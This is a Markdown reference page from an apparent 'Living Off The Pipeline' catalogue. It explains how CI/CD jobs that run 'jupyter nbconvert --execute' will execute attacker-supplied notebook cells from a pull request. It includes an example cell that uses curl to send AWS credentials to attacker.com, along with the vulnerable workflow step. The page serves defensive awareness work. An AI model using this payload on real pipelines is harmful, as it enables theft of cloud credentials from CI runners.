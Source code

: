 ```yaml
---
layout: tool
title: jupyter
parent: Living Off The Pipeline
nav_order: 31
---
```


## Living Off The Pipeline - jupyter

`Jupyter` Notebooks are interactive documents containing live code. When used in an automated CI/CD pipeline, the mechanism for executing these notebooks becomes a powerful "Living Off The Pipeline" (LOTP) vector.

### First-Order LOTP Tool

`jupyter` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) because its purpose is to execute code contained within a repository-local `.ipynb` file.

#### Malicious Primitive: Remote Code Execution (RCE)

A Jupyter Notebook (`.ipynb` file) is a JSON document that contains a list of "cells," some of which are executable code. A common practice in CI/CD pipelines is to run these notebooks to validate them or generate reports, using the command `jupyter nbconvert --execute`.

This command's sole purpose is to execute every code cell in the notebook from top to bottom. An attacker can place a malicious payload in one of these cells. When the CI/CD pipeline runs the `jupyter` command, it will execute the attacker's code.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request with a modified Jupyter Notebook file. One of the code cells, which may be hidden among many legitimate cells, contains a malicious payload.
    ```python
    # In a .ipynb code cell:
    import os
    # Malicious payload
    os.system("curl --data-binary @$HOME/.aws/credentials http://attacker.com/")
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to execute the notebook as part of its testing or validation process.
    ```yaml
    - name: Run and test notebook
      run: jupyter nbconvert --to notebook --execute my_notebook.ipynb
    ```

3.  **Execution:**
    *   The `jupyter nbconvert --execute` command is executed.
    *   The Jupyter kernel starts and runs the code in each cell of the attacker's notebook.
    *   The cell containing the malicious `os.system` call is executed.
    *   The attacker's `curl` command runs, exfiltrating sensitive credentials from the CI runner.

This attack is dangerous because the CI/CD workflow file contains a benign and common command. The malicious payload is hidden within a data file (`.ipynb`) that is explicitly designed to be executed.

### References

*   [Jupyter `nbconvert` Command-Line Interface](https://nbconvert.readthedocs.io/en/latest/usage.html#command-line-interface)
